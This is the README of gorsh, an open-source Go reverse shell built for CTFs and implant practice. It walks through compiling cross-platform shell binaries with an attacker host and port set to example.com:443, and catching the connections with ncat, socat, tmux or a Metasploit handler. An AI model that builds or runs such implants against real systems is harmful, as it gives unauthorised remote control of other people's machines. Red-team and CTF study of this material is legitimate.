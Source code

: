 # gorsh

[go]lang [r]everse [sh]ell

![](https://i.imgur.com/x51XH6K.png)
![](https://i.imgur.com/pvCmHYa.png)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes

See the [Changelog](./docs/CHANGELOG.md)

## Getting started

Check out the [official documentation](https://golang.org/doc/install) for an intro to developing
with Go and setting up your Golang environment (with the `$GOPATH` environment variable).

```bash
go get github.com/audibleblink/gorsh/...
cd $GOPATH/src/github.com/audibleblink/gorsh
```
Be sure to read the Makefile. It gives you a good idea of what's going on.
If enabled in `Makefile`, the `zipcat` cmdlet uses the zStandard compression library which requires
`cgo` compilation.
Leave the defaults in the Makefile unless you're familiar with cross-compilation and cgo and have
the toolchains for it, or read [here](./docs/TROUBLESHOOTING.md) if you're feeling adventurous.

### Usage

First, generate your certs:

```bash
$ make depends
```

For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
#or
$ make all LHOST=example.com LPOST=443
```

[Troubleshooting](./docs/TROUBLESHOOTING.md)


#### Catching the shell

The `make listen` target kicks off a tmux session and creates new windows with each new connection.
Feed it a port number as LPORT.

```sh
make listen LPORT=8080

# once a client connects
tmux attach -t GORSH
```

If your `socat` has been compiled with `READLINE` support, you get command history for free.

Shells can also be caught without tmux using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the tool's shell.
Type `help` to show what commands are supported.

## Credits

* Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`
* Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
* mzpqnxow for figuring out my x-compilation and dependancy problems and troubleshooting guide
